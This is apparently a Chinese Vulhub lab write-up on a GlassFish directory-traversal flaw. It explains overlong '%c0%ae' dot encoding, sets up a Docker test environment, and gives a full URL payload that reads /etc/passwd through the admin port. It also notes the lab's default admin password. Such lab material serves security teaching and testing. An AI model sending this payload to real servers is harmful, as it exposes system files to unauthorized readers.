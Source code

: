 # GlassFish 任意文件读取漏洞

## 漏洞描述

参考文章：https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

## 环境搭建

Vulhub编译、运行测试环境

```
docker-compose build
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080`和`http://your-ip:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

## 漏洞复现

访问`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

![image-20220223221248955](./images/202202232212069.png)

## 额外说明

本环境超级管理员密码在`docker-compose.yml`中设置，默认为`vulhub_default_password`，在4848端口利用该密码可以登录管理员账户。